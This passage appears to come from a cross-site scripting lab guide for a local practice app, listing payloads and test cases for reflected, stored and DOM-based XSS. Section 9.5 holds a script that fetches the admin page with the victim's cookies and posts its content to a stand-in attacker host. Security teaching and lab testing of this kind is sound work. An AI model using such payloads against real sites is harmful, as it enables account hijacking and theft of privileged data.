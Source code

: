 ### 9.5 Admin Panel Access
```html
<script>
// Attempt to access admin functions
fetch('/admin', {
  method: 'GET',
  credentials: 'include'
}).then(response => response.text())
.then(data => {
  // Send admin page content to attacker
  fetch('http://attacker.com/admin-steal', {
    method: 'POST',
    body: data
  });
});
</script>
```

## 🎯 Specific Test Cases for Lab

### Test Case 1: Basic Reflected XSS
**Objective**: Confirm reflected XSS in search functionality

```bash
# Navigate to:
http://localhost:5000/search?q=<script>alert('Reflected_XSS_Found')</script>

# Expected Result: Alert popup appears
# Impact: Immediate script execution from URL parameter
```

### Test Case 2: Stored XSS Persistence
**Objective**: Demonstrate persistent XSS through comments

```html
<!-- Submit comment with payload: -->
Name: TestUser
Comment: <img src=x onerror=alert('Stored_XSS_Persistent')>

<!-- Expected Result: Alert appears for all users viewing comments -->
<!-- Impact: Affects all future visitors -->
```

### Test Case 3: DOM XSS via URL Fragment
**Objective**: Exploit client-side DOM manipulation

```bash
# Navigate to:
http://localhost:5000/messages#msg=<img src=x onerror=alert('DOM_XSS_Fragment')>&to=admin

# Expected Result: Alert popup from JavaScript processing
# Impact: Client-side execution without server involvement
```
